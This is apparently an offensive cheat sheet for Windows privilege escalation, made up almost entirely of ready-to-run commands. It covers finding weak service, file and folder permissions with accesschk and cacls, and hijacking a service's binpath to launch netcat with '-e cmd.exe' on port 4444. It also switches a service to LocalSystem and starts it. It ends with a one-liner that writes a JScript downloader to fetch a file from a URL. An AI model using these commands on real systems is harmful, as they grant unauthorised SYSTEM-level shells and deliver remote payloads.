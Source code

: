 ## check service privilege
```
accesschk.exe /accepteula -ucqv <service_name>
```

## reconfigure service
```
sc config <service> binpath= "C:\nc.exe -nv 127.0.0.1 4444 -e C:\WINDOWS\System32\cmd.exe"
```

## change service
```
sc config <service> obj= ".\LocalSystem" password= ""
```

## start service
```
net start <service>
```

## check permission (1)
```
accesschk.exe /accepteula -dqv "<file>"
```

## check permission (2)
```
cacls "<file>"
```

## find weak folder permission
```
accesschk.exe -uwdqs Users <c>:\
```

## find weak file permission
```
accesschk.exe -uwqs Users <c>:\
```

% windows, download

## VBS download file script
#cat/ATTACK/FILE_TRANSFERT
```
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);WinHttpReq.Send();WScript.Echo(WinHttpReq.ResponseText); > fu.js && cscript /nologo fu.js <file_url> > <downloaded_file>
```
